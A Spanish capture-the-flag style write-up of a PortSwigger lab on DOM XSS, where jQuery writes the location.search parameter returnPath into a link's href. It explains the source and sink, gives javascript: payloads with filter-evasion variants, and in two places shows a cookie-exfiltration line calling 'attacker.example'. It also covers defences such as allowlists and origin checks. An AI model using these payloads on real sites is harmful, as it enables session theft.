



# Lab 42 — DOM XSS en atributo `href` de un enlace usando jQuery y `location.search`

**Laboratorio de PortSwigger:** DOM XSS in jQuery anchor `href` attribute sink using `location.search` source  
**URL del lab:** `https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-href-attribute-sink`  
**Categoría:** Cross-site scripting → DOM-based XSS  
**Objetivo del laboratorio:** conseguir que el enlace **Back** ejecute JavaScript mediante `alert(document.cookie)` o `alert(1)` al hacer clic.

---

## 1. Descripción del laboratorio

Este laboratorio contiene una vulnerabilidad de **DOM XSS** en la página de envío de feedback.

La aplicación utiliza JavaScript en el lado cliente para leer un valor desde la URL, concretamente desde `location.search`, y después usa jQuery para escribir ese valor dentro del atributo `href` de un enlace.

El patrón vulnerable es este:

```html
<script>
    $(function() {
        $('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
    });
</script>
```

La parte importante es esta:

```javascript
$('#backLink').attr("href", returnPath);
```

El desarrollador está diciendo:

> “Coge el valor de `returnPath` desde la URL y úsalo como destino del enlace Back”.

Eso parece inofensivo si el valor de `returnPath` es algo como:

```text
/
/home
/product?productId=1
```

Pero es peligroso si el atacante controla ese valor, porque un atributo `href` no solo acepta rutas normales o URLs `https://`. También puede aceptar esquemas especiales como:

```text
javascript:
```

Y cuando un usuario hace clic sobre un enlace cuyo `href` empieza por `javascript:`, el navegador no navega a una página normal, sino que ejecuta el código JavaScript que va después.

Por eso, este laboratorio no consiste en inyectar una etiqueta `<script>`, ni en romper HTML con ``, ni en usar `innerHTML`. Aquí la explotación se produce controlando el **comportamiento de navegación** de un enlace.

---

## 2. Imágenes del laboratorio

### Imagen 1 — Página principal del laboratorio


La página principal muestra el blog con el enlace superior **Submit feedback**. Este enlace nos lleva a la funcionalidad vulnerable.

### Imagen 2 — Página Submit feedback



En esta página aparece el formulario de feedback y, abajo, un enlace **Back**. Ese enlace es el elemento cuyo atributo `href` será modificado por JavaScript usando el parámetro `returnPath` de la URL.

### Imagen 3 — Laboratorio resuelto



Después de inyectar el payload en `returnPath`, el laboratorio queda resuelto.

### Imagen 4 — Popup de `alert`



Al hacer clic en el enlace **Back**, se ejecuta el código JavaScript contenido en el `href` y aparece el `alert`.

---

## 3. Conceptos necesarios antes de explotar el lab

Antes de ir al paso práctico conviene entender muy bien las piezas implicadas, porque este laboratorio es sencillo técnicamente, pero muy importante a nivel conceptual.

Aquí intervienen estos elementos:

1. `location.search`
2. `URLSearchParams`
3. jQuery `$()`
4. `.attr()`
5. `<a>`
6. `href`
7. El esquema `javascript:`
8. DOM XSS

Vamos uno por uno.

---

## 4. Qué es `location.search`

En JavaScript, `location` representa la URL actual del navegador.

Por ejemplo, si la URL actual es:

```text
https://example.com/feedback?returnPath=/home
```

Entonces:

```javascript
location.href
```

contiene la URL completa:

```text
https://example.com/feedback?returnPath=/home
```

Y:

```javascript
location.search
```

contiene solo la parte de query string, es decir, lo que va desde `?` en adelante:

```text
?returnPath=/home
```

En este laboratorio, la fuente de datos controlable por el atacante es precisamente esa parte de la URL.

Si nosotros visitamos:

```text
/feedback?returnPath=/
```

el valor controlable es:

```text
returnPath=/
```

Si visitamos:

```text
/feedback?returnPath=javascript:alert(1)
```

entonces estamos haciendo que `location.search` contenga:

```text
?returnPath=javascript:alert(1)
```

Esto es importante porque `location.search` es una fuente clásica de DOM XSS. El servidor puede no estar reflejando nada de forma directa, pero el navegador sí lee la URL y el JavaScript de la página puede insertar esa información en el DOM.

---

## 5. Qué es `URLSearchParams`

El código vulnerable usa esto:

```javascript
(new URLSearchParams(window.location.search)).get('returnPath')
```

Esto sirve para leer cómodamente parámetros de la URL.

Sin `URLSearchParams`, habría que parsear manualmente la query string. Con `URLSearchParams`, el navegador hace ese trabajo.

Ejemplo:

```javascript
const params = new URLSearchParams('?returnPath=/home&lang=es');
params.get('returnPath');
```

Resultado:

```text
/home
```

En el laboratorio:

```javascript
(new URLSearchParams(window.location.search)).get('returnPath')
```

significa:

> “Lee la query string actual y extrae el valor del parámetro `returnPath`”.

Si la URL es:

```text
https://LAB.web-security-academy.net/feedback?returnPath=/
```

entonces:

```javascript
(new URLSearchParams(window.location.search)).get('returnPath')
```

devuelve:

```text
/
```

Si la URL es:

```text
https://LAB.web-security-academy.net/feedback?returnPath=javascript:alert(1)
```

entonces devuelve:

```text
javascript:alert(1)
```

Ese valor termina dentro de un atributo `href`.

---

## 6. Qué es jQuery

jQuery es una librería de JavaScript muy usada durante años para simplificar operaciones comunes del DOM.

Por ejemplo, en JavaScript moderno podrías escribir:

```javascript
document.querySelector('#backLink').setAttribute('href', '/home');
```

Con jQuery se puede escribir de forma más corta:

```javascript
$('#backLink').attr('href', '/home');
```

La función `$()` es el selector de jQuery.

Ejemplos:

```javascript
$('#mensaje')
```

Busca el elemento con `id="mensaje"`.

```javascript
$('.error')
```

Busca elementos con clase `error`.

```javascript
$('a')
```

Busca todos los enlaces `<a>`.

```javascript
$('a#backLink')
```

Busca un enlace `<a>` cuyo `id` sea `backLink`.

En este lab aparece:

```javascript
$('#backLink').attr("href", valor);
```

Esto significa:

> “Busca el elemento con id `backLink` y cambia su atributo `href` al valor indicado”.

jQuery no es la vulnerabilidad por sí mismo. El problema es usar jQuery para escribir datos controlados por el usuario dentro de un atributo sensible sin validarlos.

---

## 7. Qué hace `.attr()` en jQuery

`.attr()` se usa para leer o modificar atributos HTML.

Ejemplo de lectura:

```javascript
$('#backLink').attr('href');
```

Devuelve el valor actual del atributo `href`.

Ejemplo de escritura:

```javascript
$('#backLink').attr('href', '/home');
```

Modifica el enlace para que quede así:

```html
<a id="backLink" href="/home">Back</a>
```

En este laboratorio, el valor que se escribe no es fijo ni seguro. Viene de la URL:

```javascript
$('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
```

Por tanto, si el atacante controla `returnPath`, controla el `href` final.

---

## 8. Qué es la etiqueta `<a>`

La etiqueta `<a>` se usa en HTML para crear enlaces.

Ejemplo básico:

```html
<a href="/home">Volver</a>
```

El texto visible para el usuario es:

```text
Volver
```

Y al hacer clic, el navegador va a:

```text
/home
```

La estructura general es:

```html
<a href="DESTINO">TEXTO_VISIBLE</a>
```

`href` define qué ocurre cuando el usuario hace clic.

Esto puede ser:

```html
<a href="https://example.com">Ir a Example</a>
```

O una ruta interna:

```html
<a href="/product?productId=1">Producto</a>
```

O un correo:

```html
<a href="mailto:test@example.com">Enviar email</a>
```

O, de forma peligrosa:

```html
<a href="javascript:alert(1)">Click</a>
```

En ese último caso, al hacer clic, el navegador ejecuta JavaScript.

---

## 9. Qué es `href`

`href` es un atributo que indica el destino de un enlace.

Lo normal es que apunte a una URL:

```html
<a href="https://google.com">Google</a>
```

Pero los navegadores permiten distintos esquemas o protocolos:

```text
http:
https:
mailto:
tel:
ftp:
javascript:
data:
```

La mayoría son legítimos en ciertos contextos. Por ejemplo:

```html
<a href="mailto:admin@example.com">Contactar</a>
```

abre un cliente de correo.

Pero:

```html
<a href="javascript:alert(1)">Click</a>
```

hace que el navegador ejecute código JavaScript.

La clave del laboratorio es esta:

> Si controlas un `href`, no solo controlas a dónde navega el usuario. También puedes controlar qué código se ejecuta si se permite el esquema `javascript:`.

---

## 10. Qué es `javascript:` en un `href`

`javascript:` es un esquema especial de URL.

Cuando un enlace tiene este aspecto:

```html
<a href="javascript:alert(1)">Back</a>
```

el navegador interpreta que lo que va después de `javascript:` no es una ruta, sino código JavaScript.

Al hacer clic, ejecuta:

```javascript
alert(1)
```

Esto existe por compatibilidad histórica. En aplicaciones antiguas era común ver enlaces como:

```html
<a href="javascript:void(0)">Abrir menú</a>
```

o:

```html
<a href="javascript:doSomething()">Ejecutar acción</a>
```

Hoy en día se considera mala práctica usar JavaScript inline en enlaces. Lo recomendable es usar eventos con `addEventListener` y mantener separada la lógica del HTML.

En seguridad, `javascript:` en atributos `href` es peligroso porque convierte un valor aparentemente “de navegación” en un vector de ejecución de código.

---

## 11. Qué tipo de XSS es este

Este laboratorio es **DOM-based XSS**.

No es stored XSS porque el payload no se guarda en base de datos.

No es reflected XSS clásico porque el servidor no tiene por qué reflejar el payload en el HTML de la respuesta.

Es DOM XSS porque el flujo vulnerable ocurre en el navegador:

```text
URL controlada por atacante
        ↓
window.location.search
        ↓
URLSearchParams(...).get('returnPath')
        ↓
jQuery .attr('href', valor)
        ↓
<a id="backLink" href="valor">
        ↓
click del usuario
        ↓
ejecución de javascript:
```

El servidor simplemente entrega la página. El JavaScript del cliente es quien toma el valor de la URL y lo introduce en el DOM.

---

## 12. Source y sink en este laboratorio

En DOM XSS se habla mucho de **source** y **sink**.

### Source

Un source es el origen de datos controlables por el atacante.

Aquí el source es:

```javascript
window.location.search
```

Porque el atacante puede modificar la query string de la URL.

Ejemplo:

```text
/feedback?returnPath=javascript:alert(1)
```

### Sink

Un sink es el punto donde esos datos se usan de forma peligrosa.

Aquí el sink es:

```javascript
$('#backLink').attr("href", ...)
```

porque escribe datos no confiables dentro de un atributo `href`.

El patrón completo sería:

```javascript
$('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
```

Source:

```javascript
window.location.search
```

Sink:

```javascript
.attr("href", ...)
```

Payload:

```text
javascript:alert(1)
```

---

## 13. Por qué no hace falta `<script>`

En muchos XSS se intenta usar:

```html
<script>alert(1)</script>
```

Pero aquí no hace falta.

El contexto no es HTML insertado en `innerHTML`. El contexto es un atributo `href`.

Por eso, el payload correcto no es:

```html
<script>alert(1)</script>
```

sino:

```text
javascript:alert(1)
```

La vulnerabilidad está en el uso inseguro de un atributo. No necesitamos crear una etiqueta nueva ni romper el DOM. Solo necesitamos darle al enlace un destino que el navegador ejecute.

Esta es una idea muy importante:

> No todo XSS consiste en inyectar etiquetas. A veces basta con controlar el valor de un atributo con semántica peligrosa.

---

## 14. Por qué `href="javascript:..."` ejecuta solo al hacer clic

A diferencia de ``, que puede ejecutarse automáticamente cuando falla la carga de la imagen, un enlace con `href="javascript:..."` normalmente necesita una acción del usuario: hacer clic.

Ejemplo:

```html
<a href="javascript:alert(1)">Back</a>
```

Mientras el usuario no haga clic, no se ejecuta.

Cuando el usuario hace clic:

1. El navegador lee el `href`.
2. Detecta el esquema `javascript:`.
3. Interpreta el resto como código.
4. Ejecuta `alert(1)`.

En el laboratorio, esto es suficiente porque el objetivo es conseguir que el enlace **Back** ejecute JavaScript al pulsarlo.

---

## 15. Qué diferencia hay con el lab de `innerHTML`

En el laboratorio anterior de `innerHTML`, el payload era algo como:

```html

```

Porque el sink era:

```javascript
element.innerHTML = query;
```

Ahí el navegador convertía la cadena en HTML real.

En este laboratorio, el sink es:

```javascript
.attr('href', returnPath)
```

Por tanto, si metes:

```html

```

probablemente no conseguirás el mismo resultado, porque ese valor se colocaría dentro de `href`, no se interpretaría como una etiqueta.

Quedaría conceptualmente así:

```html
<a id="backLink" href="">Back</a>
```

Eso no crea una imagen. Solo crea un enlace con un destino raro.

Por eso en este lab el payload correcto aprovecha el significado del atributo `href`:

```text
javascript:alert(1)
```

La regla mental es:

```text
innerHTML → piensa en HTML ejecutable.
href → piensa en protocolos/esquemas ejecutables.
```

---

## 16. Qué diferencia hay con stored XSS en `href`

En otro laboratorio de PortSwigger vimos un caso de stored XSS en `href`, donde el campo `Website` terminaba generando:

```html
<a href="javascript:alert(1)">pepe</a>
```

Ese caso era stored XSS porque el payload se guardaba como comentario.

Aquí no se guarda nada. El payload está en la URL:

```text
/feedback?returnPath=javascript:alert(1)
```

El JavaScript de la página lee esa URL y modifica el DOM.

Por tanto:

```text
Stored XSS en href:
input → base de datos → HTML futuro → click

DOM XSS en href:
URL → location.search → jQuery .attr('href') → click
```

El resultado visual puede ser parecido, pero el origen y el flujo son distintos.

---

## 17. Análisis del código vulnerable real

En la página de feedback encontramos este código:

```html
<script>
    $(function() {
        $('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
    });
</script>
```

Vamos línea por línea.

### 17.1. `$(function() { ... });`

Esto es jQuery.

Significa:

> “Ejecuta esta función cuando el DOM esté listo”.

Es equivalente a algo parecido a:

```javascript
document.addEventListener('DOMContentLoaded', function() {
    ...
});
```

El desarrollador quiere esperar a que exista el enlace `#backLink` antes de modificarlo.

### 17.2. `$('#backLink')`

Busca el elemento con id `backLink`.

En la página existe algo como:

```html
<a id="backLink">Back</a>
```

Ese es el enlace que se ve abajo en la página de feedback.

### 17.3. `.attr("href", ...)`

Modifica el atributo `href` del enlace.

Si el valor es `/`, quedará:

```html
<a id="backLink" href="/">Back</a>
```

Si el valor es `/post`, quedará:

```html
<a id="backLink" href="/post">Back</a>
```

Si el valor es `javascript:alert(1)`, quedará:

```html
<a id="backLink" href="javascript:alert(1)">Back</a>
```

### 17.4. `(new URLSearchParams(window.location.search)).get('returnPath')`

Extrae el parámetro `returnPath` de la URL actual.

Si la URL es:

```text
/feedback?returnPath=/
```

entonces devuelve:

```text
/
```

Si la URL es:

```text
/feedback?returnPath=javascript:alert(1)
```

entonces devuelve:

```text
javascript:alert(1)
```

### 17.5. El fallo exacto

El fallo está en que no hay validación.

El código debería comprobar que `returnPath` sea una ruta interna segura, pero no lo hace.

Código vulnerable:

```javascript
$('#backLink').attr("href", returnPath);
```

Código más seguro:

```javascript
if (returnPath && returnPath.startsWith('/')) {
    $('#backLink').attr('href', returnPath);
} else {
    $('#backLink').attr('href', '/');
}
```

Pero incluso esta validación debe hacerse con cuidado, porque hay casos raros como:

```text
//evil.com
/%5C%5Cevil.com
```

La defensa robusta se explica más adelante.

---

## 18. Explotación práctica del laboratorio

### 18.1. Abrimos el laboratorio

Accedemos al laboratorio:

```text
https://0a5400d103048b9e800062b5000700b8.web-security-academy.net/
```

La página principal tiene el aspecto de la imagen 1.


En la parte superior aparece el enlace:

```text
Submit feedback
```

Ese es el punto de entrada.

---

### 18.2. Entramos en Submit feedback

Al hacer clic en **Submit feedback**, llegamos a una página con un formulario:


Abajo aparece el enlace:

```text
< Back
```

Este enlace es el que será manipulado por JavaScript.

La URL original suele tener este formato:

```text
/feedback?returnPath=/
```

El parámetro importante es:

```text
returnPath=/
```

Eso significa que el enlace Back debería llevarnos a `/`.

---

### 18.3. Inspeccionamos el DOM

Abrimos las herramientas de desarrollador con F12 e inspeccionamos el código.

Encontramos:

```html
<script>
    $(function() {
        $('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
    });
</script>
```

Y más abajo:

```html
<div class="is-linkback">
    <a id="backLink">Back</a>
</div>
```

Después de ejecutarse el script, el navegador añade el `href` dinámicamente.

Si la URL es:

```text
/feedback?returnPath=/
```

el DOM final será:

```html
<a id="backLink" href="/">Back</a>
```

---

### 18.4. Identificamos source y sink

Source:

```javascript
window.location.search
```

Sink:

```javascript
$('#backLink').attr("href", ...)
```

El flujo vulnerable es:

```text
returnPath de la URL
        ↓
URLSearchParams(...).get('returnPath')
        ↓
.attr('href', valor)
        ↓
<a id="backLink" href="valor">
```

Como no hay validación, podemos poner `javascript:`.

---

### 18.5. Construimos el payload

El objetivo del laboratorio pide ejecutar:

```javascript
alert(document.cookie)
```

Un payload válido sería:

```text
javascript:alert(document.cookie)
```

En tus pruebas usaste también:

```text
javascript:alert(1)
```

Ambos demuestran ejecución de JavaScript, aunque el enunciado pide `alert(document.cookie)`.

La URL quedaría:

```text
https://0a5400d103048b9e800062b5000700b8.web-security-academy.net/feedback?returnPath=javascript:alert(document.cookie)
```

O con `alert(1)`:

```text
https://0a5400d103048b9e800062b5000700b8.web-security-academy.net/feedback?returnPath=javascript:alert(1)
```

Si el navegador codifica caracteres especiales, puede verse como:

```text
/feedback?returnPath=javascript:alert%281%29
```

Eso sigue siendo equivalente, porque `%28` es `(` y `%29` es `)`.

---

### 18.6. Cargamos la URL modificada

Cambiamos la URL original:

```text
/feedback?returnPath=/
```

por:

```text
/feedback?returnPath=javascript:alert(1)
```

Al cargar la página, el script se ejecuta y hace:

```javascript
$('#backLink').attr("href", "javascript:alert(1)");
```

El DOM queda así:

```html
<div class="is-linkback">
    <a id="backLink" href="javascript:alert(1)">Back</a>
</div>
```

Esto todavía no dispara el `alert`, porque el enlace necesita ser clicado.

---

### 18.7. Hacemos clic en Back

Al hacer clic en **Back**, el navegador lee:

```html
href="javascript:alert(1)"
```

Y ejecuta:

```javascript
alert(1)
```

Aparece el popup:


Y el laboratorio queda resuelto:


---

## 19. Cómo queda el DOM después del payload

Después de cargar:

```text
/feedback?returnPath=javascript:alert(1)
```

el DOM queda:

```html
<div class="is-linkback">
    <a id="backLink" href="javascript:alert(1)">Back</a>
</div>
```

La parte vulnerable es:

```html
href="javascript:alert(1)"
```

Eso demuestra que el valor controlado por la URL ha terminado exactamente dentro del atributo `href`.

---

## 20. Por qué se resuelve al cargar o al hacer clic

En algunos laboratorios, el estado de “solved” puede aparecer cuando la plataforma detecta que has construido el vector correcto o cuando se ejecuta el `alert`. En este caso, la explotación real ocurre cuando haces clic en **Back**.

La secuencia exacta es:

```text
1. Cargas /feedback?returnPath=javascript:alert(1)
2. jQuery cambia href del enlace Back.
3. El enlace queda armado.
4. Haces clic en Back.
5. El navegador ejecuta javascript:alert(1).
6. Aparece el popup.
7. El lab queda resuelto.
```

La diferencia con otros DOM XSS automáticos es que aquí el sink no ejecuta inmediatamente el código. Solo crea un enlace malicioso. La ejecución llega con la interacción del usuario.

---

## 21. Por qué esto no es un problema de jQuery como librería

Es importante no sacar una conclusión equivocada.

jQuery no es “malo” por permitir `.attr()`.

Esto es normal y legítimo:

```javascript
$('#backLink').attr('href', '/home');
```

El fallo aparece cuando se hace esto:

```javascript
$('#backLink').attr('href', userControlledInput);
```

sin validar que `userControlledInput` sea seguro.

El problema real es:

```text
input no confiable → atributo sensible → sin validación
```

jQuery solo es la herramienta usada para escribir el atributo.

---

## 22. Por qué el navegador no bloquea `javascript:` automáticamente

Puede parecer extraño que el navegador permita esto:

```html
<a href="javascript:alert(1)">Click</a>
```

Pero lo permite por compatibilidad histórica.

Durante mucho tiempo, muchos sitios usaban enlaces con `javascript:` para acciones de interfaz:

```html
<a href="javascript:void(0)">Abrir modal</a>
```

Si los navegadores lo bloquearan de golpe, romperían páginas antiguas.

Por eso la responsabilidad de seguridad recae en la aplicación:

- no meter input de usuario en `href` sin validarlo;
- bloquear esquemas peligrosos;
- preferir rutas relativas controladas;
- evitar JavaScript inline.

---

## 23. Por qué `alert(document.cookie)` es más representativo que `alert(1)`

`alert(1)` demuestra ejecución de JavaScript.

Pero `alert(document.cookie)` demuestra algo más serio:

```javascript
alert(document.cookie)
```

Eso intenta leer las cookies accesibles por JavaScript.

Si la cookie de sesión no tiene `HttpOnly`, un atacante podría robarla con un payload real de exfiltración.

Ejemplo conceptual:

```text
javascript:fetch('https://attacker.example', {method:'POST', body:document.cookie})
```

En el laboratorio solo se pide un `alert`, no exfiltración, pero el riesgo real de XSS es ese: ejecutar JavaScript en el contexto del sitio legítimo.

---

## 24. Variantes del payload

### 24.1. Payload básico del laboratorio

```text
javascript:alert(document.cookie)
```

URL:

```text
/feedback?returnPath=javascript:alert(document.cookie)
```

### 24.2. Payload simple de prueba

```text
javascript:alert(1)
```

URL:

```text
/feedback?returnPath=javascript:alert(1)
```

### 24.3. Payload con `void`

```text
javascript:alert(1);void(0)
```

Esto evita que el resultado de la expresión pueda afectar visualmente a la página.

### 24.4. Payload URL-encoded

```text
javascript%3Aalert%281%29
```

Equivale a:

```text
javascript:alert(1)
```

URL:

```text
/feedback?returnPath=javascript%3Aalert%281%29
```

### 24.5. Payload con mayúsculas/minúsculas

Algunos filtros débiles bloquean `javascript:` en minúsculas, pero no variantes como:

```text
JaVaScRiPt:alert(1)
```

Los navegadores suelen tratar los esquemas de URL de forma case-insensitive.

Una defensa correcta no puede depender de comparar solo una cadena literal sin normalizar.

### 24.6. Payload con espacios o codificación

Algunas variantes históricas usan codificaciones o caracteres de control. No siempre funcionan en navegadores modernos, pero son relevantes para entender por qué la validación debe ser robusta.

Ejemplos conceptuales:

```text
javascript:%61lert(1)
```

```text
java%73cript:alert(1)
```

No conviene depender de listas negras simples.

---

## 25. Qué payloads NO son adecuados aquí

### 25.1. `<script>alert(1)</script>`

No es el contexto correcto.

Si se coloca en `href`, quedaría como destino del enlace, no como HTML ejecutable:

```html
<a href="<script>alert(1)</script>">Back</a>
```

Eso no crea un `<script>` real.

### 25.2. ``

Tampoco es el contexto correcto.

Quedaría como:

```html
<a href="">Back</a>
```

No se crea una imagen. Solo se crea un enlace con un valor extraño en `href`.

### 25.3. `" onclick="alert(1)`

Tampoco es necesario ni adecuado, porque no estamos rompiendo un atributo generado por el servidor. Estamos asignando directamente el valor del atributo mediante JavaScript.

El navegador no está construyendo una cadena HTML como:

```html
<a href="USER_INPUT">
```

sino que el DOM se modifica con:

```javascript
setAttribute('href', userInput)
```

Así que no necesitamos cerrar comillas. Necesitamos usar un esquema peligroso permitido por `href`.

---

## 26. Diferencia entre HTML parsing y DOM property/attribute assignment

Este detalle es importante.

Cuando una página contiene HTML como:

```html
<a href="javascript:alert(1)">Back</a>
```

el parser HTML lee el documento y construye el DOM.

Pero en este laboratorio, el atributo se modifica después con JavaScript:

```javascript
$('#backLink').attr('href', 'javascript:alert(1)');
```

Eso no pasa por el mismo tipo de parsing que `innerHTML`. No interpreta la cadena como HTML nuevo. Simplemente asigna el valor al atributo existente.

Por eso payloads de HTML no funcionan, pero `javascript:` sí.

Dicho de otra forma:

```text
innerHTML = ''
→ crea nodos HTML.

attr('href', 'javascript:...')
→ no crea nodos HTML, pero arma un enlace ejecutable.
```

---

## 27. Por qué el sink es peligroso aunque no ejecute inmediatamente

Un sink peligroso no siempre ejecuta código en el mismo instante.

Ejemplos:

```javascript
element.innerHTML = input;
```

Puede ejecutar inmediatamente si se crea un elemento con evento como `onerror`.

```javascript
link.href = input;
```

No ejecuta inmediatamente, pero deja preparado un elemento que ejecutará código si el usuario hace clic.

Esto se llama a veces un **execution gadget** o un vector dependiente de interacción.

El peligro sigue siendo real porque el atacante puede crear una URL que deje el enlace armado.

---

## 28. Flujo completo de explotación

Flujo final:

```text
Atacante crea URL:
/feedback?returnPath=javascript:alert(1)

La víctima abre esa URL.

El navegador carga la página de feedback.

El código jQuery se ejecuta cuando el DOM está listo.

jQuery lee returnPath desde location.search.

jQuery asigna ese valor al href del enlace Back.

El DOM queda:
<a id="backLink" href="javascript:alert(1)">Back</a>

La víctima hace clic en Back.

El navegador ejecuta alert(1).
```

---

## 29. Riesgo real en una aplicación

En un entorno real, este patrón podría permitir:

- ejecutar JavaScript en el contexto del usuario;
- leer datos del DOM;
- robar tokens no protegidos;
- ejecutar acciones en nombre del usuario;
- cambiar formularios;
- redirigir a páginas maliciosas;
- capturar información introducida por el usuario.

Aunque el laboratorio usa `alert`, un atacante real no se limitaría a eso.

Ejemplo conceptual de abuso:

```text
javascript:fetch('https://attacker.example/log',{method:'POST',body:document.cookie})
```

Si las cookies relevantes no son `HttpOnly`, podrían ser robadas.

También se podrían leer tokens CSRF del DOM o hacer peticiones autenticadas desde el mismo origen.

---

## 30. Cómo defender correctamente este caso

La defensa correcta no es “escapar comillas” ni “bloquear `<script>`”.

Aquí el problema no es HTML injection. El problema es permitir esquemas peligrosos en un atributo `href`.

### 30.1. Validar `returnPath`

Si `returnPath` debe ser una ruta interna, solo se deberían aceptar rutas internas.

Ejemplo básico:

```javascript
const returnPath = new URLSearchParams(window.location.search).get('returnPath');

if (returnPath && returnPath.startsWith('/') && !returnPath.startsWith('//')) {
    $('#backLink').attr('href', returnPath);
} else {
    $('#backLink').attr('href', '/');
}
```

Esto evita:

```text
javascript:alert(1)
```

Y también evita URLs protocol-relative como:

```text
//evil.com
```

### 30.2. Usar `URL` para normalizar

Una validación más robusta puede usar el constructor `URL`:

```javascript
const value = new URLSearchParams(window.location.search).get('returnPath') || '/';
const url = new URL(value, window.location.origin);

if (url.origin === window.location.origin) {
    $('#backLink').attr('href', url.pathname + url.search + url.hash);
} else {
    $('#backLink').attr('href', '/');
}
```

Esto fuerza que el destino sea del mismo origen.

### 30.3. Bloquear esquemas peligrosos

Como mínimo, nunca se deberían permitir esquemas como:

```text
javascript:
data:
vbscript:
file:
```

Pero depender solo de una lista negra es frágil. Es mejor permitir únicamente lo necesario.

### 30.4. Usar allowlist, no blacklist

Malo:

```javascript
if (!returnPath.includes('javascript:')) {
    link.href = returnPath;
}
```

Mejor:

```javascript
if (returnPath.startsWith('/') && !returnPath.startsWith('//')) {
    link.href = returnPath;
}
```

Aún mejor:

```javascript
const parsed = new URL(returnPath, location.origin);
if (parsed.origin === location.origin) {
    link.href = parsed.href;
}
```

### 30.5. CSP como defensa adicional

Una Content Security Policy puede limitar la ejecución de JavaScript inline o bloquear ciertas formas de ejecución.

Pero CSP no debe ser la única defensa. La validación del destino sigue siendo necesaria.

### 30.6. No confiar en parámetros de URL para controlar navegación sensible

Si el enlace Back siempre debe volver a una ruta conocida, es mejor generarlo desde el servidor o usar una lista de destinos permitidos.

Por ejemplo:

```javascript
const allowedPaths = new Set(['/', '/feedback', '/posts']);

if (allowedPaths.has(returnPath)) {
    backLink.href = returnPath;
} else {
    backLink.href = '/';
}
```

---

## 31. Errores comunes al analizar este laboratorio

### Error 1: pensar que necesitas `<script>`

No. El contexto es `href`.

### Error 2: pensar que jQuery ejecuta el payload

No. jQuery solo escribe el atributo. Quien ejecuta es el navegador cuando se hace clic.

### Error 3: pensar que `href` solo navega

No. `href` puede usar distintos esquemas, incluido `javascript:`.

### Error 4: intentar romper comillas

No hace falta romper comillas porque el valor se asigna directamente como atributo.

### Error 5: pensar que DOM XSS siempre es automático

No. Algunos DOM XSS requieren interacción, como hacer clic en un enlace armado.

---

## 32. Resumen ultra claro

La vulnerabilidad está en esta línea:

```javascript
$('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
```

El atacante controla:

```text
returnPath
```

El valor acaba en:

```html
<a id="backLink" href="AQUÍ">Back</a>
```

Como `href` permite `javascript:`, usamos:

```text
javascript:alert(1)
```

El DOM final queda:

```html
<a id="backLink" href="javascript:alert(1)">Back</a>
```

Al hacer clic:

```javascript
alert(1)
```

se ejecuta.

---

## 33. Frases clave para memorizar

```text
DOM XSS = source controlado + sink peligroso.
```

```text
location.search es una fuente controlable por el usuario.
```

```text
.attr('href', userInput) es peligroso si no validas protocolos.
```

```text
Si controlas href, piensa en javascript:, no en <script>.
```

```text
No todo XSS consiste en romper HTML; a veces basta con usar el comportamiento normal del navegador.
```

```text
jQuery no es la vulnerabilidad; la vulnerabilidad es confiar en input no validado.
```

---

## 34. Payload final

Payload usado:

```text
javascript:alert(1)
```

Payload recomendado por el objetivo del lab:

```text
javascript:alert(document.cookie)
```

URL final con `alert(1)`:

```text
